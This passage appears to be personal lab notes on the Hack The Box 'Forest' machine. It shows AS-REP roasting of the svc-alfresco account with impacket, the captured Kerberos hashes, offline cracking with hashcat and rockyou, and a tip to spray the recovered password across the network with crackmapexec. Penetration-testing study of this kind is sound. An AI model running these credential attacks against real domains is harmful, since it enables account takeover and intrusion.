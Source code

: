 ```bash
┌──(kali㉿kali)-[~/Documents/htb/machines/forest]
└─$ impacket-GetNPUsers htb.local/ -dc-ip $IP                                                    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-02-13 17:30:24.349530  2019-09-23 07:09:47.931194  0x410200 



                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/htb/machines/forest]
└─$ impacket-GetNPUsers htb.local/svc-alfresco -dc-ip $IP -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ef2405d7be0b551ed384e5768b630e8b$666309a98238290f5622d5cdde91cb5e9630b2c26796f3e21f84560d926659538ef34b49e2680adeb73a203d827b437ac8aa70578c40510dfe247f15f7f3b2d55777018cfeedfbc191d39c03ad1c5ff049d2b666c2e892c15be612d92609e9bf3b48c39c2486e878575d3679b776532ff9ac88556cead3e437141e0d47a9e9a9071ee62b717369b8220d7826da2b13abc7ca3a32e3c870129bb16decb8d2e923db40c6dca02f90f44fe4b70fcbff976c5f462ca5f2efd85baaa805005c25db05ce3ec5c9a87d590601e14ea92d1a6f6fdaaf0758ff82c023a1e4fdac922fdccaff85aae8fa20

```
- with this hash, we can save it to a file and try to crack offline using hashcat
```bash
echo "$krb5asrep$23$svc-alfresco@HTB.LOCAL:02edf62c0a429041c31b90507b72b62b$a175de506e32f9ac50cc5972cca3e794d4417f6e5d16ddbb57cc068d98e3a7a12a4354af9086954ec3e3a3fa98e8a79487f9265459334e7f1c13909c3c40109cc0210997262409052a74ec7c6e42bc912325c0cd9e4fb449136469388532d8f2dd36389e09abab3bddc03641050d0022b5795eab057b4d2d615b54d300986e00bdb4f9747fcf664de615109f69877f38335ea16f77ac75bff14e634790fd7448d60c08f58abca2937767919b698460fbdf6c5376eea9ea49065c77561f18268e02e85d319617265d63c08ba3c010984c59a340c0ecd3884c4b63cdf25ea3e8e06b659c41290f" >> forest.hashes
```

### Cracking the Password Hash
- either copy the file or the hash to ur host, and crack it with hashcat - *significantly* faster on the host since it can utilize the GPU whereas the VM cant
- hashcat mode ![](Pasted%20image%2020230213152959.png)
	- https://hashcat.net/wiki/doku.php?id=example_hashes
- `./hashcat.exe -m 18200 -a 0 .\hashes\forest.hash .\rockyou.txt`
	- -m: Select the mode to be used when cracking - this is determined by the hash type
	- -a: The type of attack to use. 0 is a simple dictionary attack which then uses the supplied wordlist (rockyou.txt). [Attack modes](https://hashcat.net/wiki/#core_attack_modes)
- ![](Pasted%20image%2020230213153328.png)
- The password for `svc-alfresco` is `s3rvice`
	- **Good practice to blast creds out against the network using crackmapexec**
- ![](Pasted%20image%2020230213153858.png)
- ![](Pasted%20image%2020230213154012.png)
